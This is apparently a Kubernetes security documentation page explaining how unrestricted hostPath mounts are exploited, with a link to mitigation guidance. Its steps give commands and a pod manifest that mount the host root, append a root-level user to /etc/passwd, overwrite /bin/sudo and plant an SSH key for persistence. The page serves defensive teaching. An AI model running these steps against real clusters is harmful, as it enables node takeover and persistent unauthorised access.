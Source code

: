 ```yaml
---
sidebar_position: 10
title: "Unrestricted HostPath Mounts"
description: "How attackers exploit unrestricted hostPath mounts to gain access to the host filesystem and escalate privileges."
---
```


# Unrestricted HostPath Mounts

**hostPath** volumes in Kubernetes allow pods to directly access the host filesystem. If improperly configured, attackers can exploit **unrestricted hostPath mounts** to **access sensitive files, modify system configurations, and escalate privileges**.

---

## Exploitation Steps: Abusing hostPath Mounts

An attacker gains unauthorized access to the **host filesystem** by exploiting a misconfigured **hostPath volume**.

### Step 1: Identify Misconfigured hostPath Volumes

The attacker searches for pods with **hostPath mounts** that expose critical directories:

```bash
kubectl get pods -A -o=jsonpath='{range .items[*]}{.metadata.name}{"\t"}{.spec.volumes[*].hostPath.path}{"\n"}{end}'
```

If a pod is mounting `/etc`, `/var/lib/kubelet`, or `/root`, the attacker proceeds.

### Step 2: Deploy a Malicious Pod with a hostPath Mount

The attacker creates a new pod that mounts a **privileged directory** from the host:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: exploit-hostpath
spec:
  containers:
    - name: attacker-container
      image: alpine
      command: ["/bin/sh", "-c"]
      args: ["sleep 3600"]
      volumeMounts:
        - mountPath: /host
          name: host-root
  volumes:
    - name: host-root
      hostPath:
        path: /
        type: Directory
```

```bash
kubectl apply -f exploit-hostpath.yaml
```

The pod now has **full access to the host filesystem**.

### Step 3: Escalate Privileges

The attacker gains root access by modifying **/etc/passwd**:

```bash
echo "attacker:x:0:0::/root:/bin/bash" >> /host/etc/passwd
```

Or by replacing a system binary with a malicious payload:

```bash
echo '#!/bin/sh\necho "Root access gained"' > /host/bin/sudo
chmod +x /host/bin/sudo
```

### Step 4: Persist in the System

To maintain access, the attacker **creates a backdoor** by modifying the host’s SSH keys:

```bash
echo "attacker-public-key" >> /host/root/.ssh/authorized_keys
```

Even if Kubernetes detects and removes the pod, the attacker retains **persistent access** to the host.

### Result

The attacker now has **root privileges on the host**, allowing them to **exfiltrate data, modify critical system files, and take full control of the Kubernetes node**.

---

## Mitigation Steps

To protect against **unrestricted hostPath mounts**, follow the security best practices outlined in:

➡ **[Restricting HostPath Mounts in Kubernetes](/docs/best_practices/cluster_setup_and_hardening/pod_security/unrestricted_hostpath_mitigation)**

This guide covers techniques such as **disabling hostPath, enforcing PodSecurityAdmission policies, using AppArmor and Seccomp profiles, and restricting privileged containers** to prevent unauthorized access to the host filesystem.
